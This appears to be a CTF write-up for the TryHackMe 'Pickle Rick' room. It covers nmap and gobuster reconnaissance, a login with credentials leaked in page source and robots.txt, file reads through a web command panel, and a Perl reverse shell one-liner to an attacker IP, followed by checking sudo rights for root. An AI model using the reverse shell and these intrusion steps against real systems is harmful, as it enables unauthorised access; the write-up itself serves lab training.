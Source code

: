 ```yaml
---
layout: post
permalink: /posts/thm/pickle-rick
title: "Pickle Rick"
---
```


This Rick and Morty themed challenge requires you to exploit a webserver to find 3 ingredients that will help Rick make his potion to transform himself back into a human from a pickle. <br />

To beging with scan the target machine with nmap

```
nmap -sC -sV <IP>
```

![nmap](/assets/images/thm/pickle-rick/nmap.png)

There are open ports 22 and 80. Visit the website.

![website](/assets/images/thm/pickle-rick/website.png)

Let's first view the source code.

![source-code](/assets/images/thm/pickle-rick/source-code.png)

We have found a username there `R1ckRul3s` <br />
The other thing that we can try is to scan the website for hidden directories. I'm going to use gobuster for that purpose.

```
gobuster dir -u http://10.10.254.244/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt -x php,txt,html
```

![gobuster](/assets/images/thm/pickle-rick/gobuster.png)

We have found some directories let's first look at robots.txt

![robots](/assets/images/thm/pickle-rick/robots.png)

Hmm... there is a strange string. Let's try something, go to the login page and try to login with the username which we had found and this wierd string as password

![login](/assets/images/thm/pickle-rick/login.png)

![portal](/assets/images/thm/pickle-rick/portal.png)

Good, we are in. The portal page show us that we can execute commands there.

![ls](/assets/images/thm/pickle-rick/ls.png)

Woohoo, we have found an ingredient. But wait cat command is disabled.

![disabled](/assets/images/thm/pickle-rick/disabled.png)

What other commands we can use to read files try with this one:

```
less Sup3rS3cretPickl3Ingred.txt
```

Good, now we have our first ingredient. There is another file `clue.txt`

![clue](/assets/images/thm/pickle-rick/clue.png)

That is a good clue. Let's look around the system

```
ls home
```

![ls-home](/assets/images/thm/pickle-rick/ls-home.png)

This rick directory looks suspicious

```
ls /home/rick
```

![ls-rick](/assets/images/thm/pickle-rick/ls-rick.png)

Here we go, we have found the second ingredient. Just read it

```
less /home/rick/'second ingredients'
```

Now we need to find the last third ingredient. I tried to execute a revesre shell `https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet` first try with the bash script wasn't successful but the perl one works

```
perl -e 'use Socket;$i="10.10.198.228";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

![shell](/assets/images/thm/pickle-rick/shell.png)

We have a shell acces now we have to escalate our privileges. One of the first thing that you can check is whether our user has any sudo permissions

```
sudo -l
```

![sudo-l](/assets/images/thm/pickle-rick/sudo-l.png)

Wow we have the right to execute any commands with as root without password

![3rd](/assets/images/thm/pickle-rick/3rd.png)
